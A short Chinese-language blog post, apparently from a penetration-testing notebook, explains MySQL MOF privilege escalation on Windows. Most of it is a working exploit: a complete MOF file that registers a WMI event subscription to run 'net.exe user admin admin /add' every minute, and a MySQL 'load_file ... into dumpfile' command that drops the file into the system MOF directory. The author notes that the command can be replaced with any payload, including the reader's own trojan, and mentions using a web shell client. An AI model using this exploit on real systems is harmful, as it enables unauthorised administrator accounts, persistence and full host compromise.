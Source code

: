```yaml
---
layout: post
title: "mysql mof 提权"
description: ""
category: 渗透测试
tags: [mysql]
---
```

{% include JB/setup %}


## 参考资料 ##

[mof运行远控](http://zone.wooyun.org/content/2273)

[windows写权限变成可执行权限的利用](http://zone.wooyun.org/content/1806)

[利用代码](http://zone.wooyun.org/content/1795)

[exploitdb](http://www.exploit-db.com/exploits/23083/)

## 利用代码 ##

1.找个可写目录，我这里是C:\recycler\，把如下代码写到nullevt.mof文件里（也就是他源码里的payload）：

#pragma namespace("\\\\.\\root\\subscription")

	instance of __EventFilter as $EventFilter
	{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP2";
    Query = "Select * From __InstanceModificationEvent "
    "Where TargetInstance Isa \"Win32_LocalTime\" "
    "And TargetInstance.Second = 5";
    QueryLanguage = "WQL";
	};

	instance of ActiveScriptEventConsumer as $Consumer
	{
    Name = "consPCSV2";
    ScriptingEngine = "JScript";
    ScriptText =
    "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user admin admin /add\")";
	};

	instance of __FilterToConsumerBinding
	{
    Consumer   = $Consumer;
    Filter = $EventFilter;
	};


注意上面的net.exe user admin admin /add，可以随便改的，想执行啥都行，有没有参数也都行，执行自己的马也行。
再然后，在菜刀里连接mysql数据库后执行：

	select load_file('C:\\RECYCLER\\nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof';


## 分析 ##

本质上是写权限变可执行权限,将mof文件写入特定目录,导致其被执行.

